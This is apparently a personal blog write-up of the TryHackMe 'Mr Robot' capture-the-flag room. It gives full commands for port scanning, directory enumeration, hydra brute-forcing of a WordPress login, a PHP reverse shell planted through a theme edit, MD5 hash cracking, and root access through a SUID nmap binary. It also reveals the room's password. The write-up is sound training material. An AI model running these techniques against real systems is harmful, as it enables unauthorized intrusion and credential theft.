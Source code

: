 ```yaml
---

title: Box - Mr Robot CTF
published: true
---
```


Based on the Mr. Robot show, can you root this box?

[https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

![0xskar](/assets/mrrobot01.jpg)

* * *

## Hack the Machine

##   Nmap Scans

- Discover open ports with ``nmap -Pn -sS -T5 10.10.122.32 -p- -vvv``
- We find ports 22,80,443
- Port 22/tcp  closed ssh      reset ttl 61

> Port 80/tcp  open   http     syn-ack ttl 61 Apache httpd
> http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
> http-title: Site doesn't have a title (text/html).
> http-methods: 
> Supported Methods: GET HEAD POST OPTIONS
> http-server-header: Apache

##  What is key 1?

- ``gobuster dir -u http://10.10.122.32/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php -t 100``
- Robots.txt

##  What is key 2?

- ``/wp-login.php`` we can brute force using the fsocity.dic found in robots.txt
- using foxyproxy and burpsuite we can capture what we need to generate our hydra code
- ``hydra -L fsocity.dic -p password 10.10.122.32 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"``
- We find username Elliot
- ``hydra -l Elliot -P fsocity.dic 10.10.122.32 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The Password you entered for the username"``
- eventually you will get the password ``ER28-0652``
- open up netcat listener and change the theme to php reverse shell
- upgrade shell ``python -c 'import pty; pty.spawn("/bin/bash")'``

![0xskar](/assets/mrrobot02.png)

- John the ripper the raw-md5 hash in robot dir in order to su to robot ``john password.raw-md5 --wordlist=fsocity.dic --format=Raw-MD5``

![0xskar](/assets/mrrobot03.png)

##   Linpeas.sh - PrivESC Vectors

- **SUID** - /usr/local/bin/nmap - [GTFO BINS](https://gtfobins.github.io/gtfobins/nmap/#suid)

- ``nmap --interactive``

```shell
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !sh
!sh
# whoami
whoami
root
```

##  What is key 3?

![0xskar](/assets/mrrobot04.png)

* * * 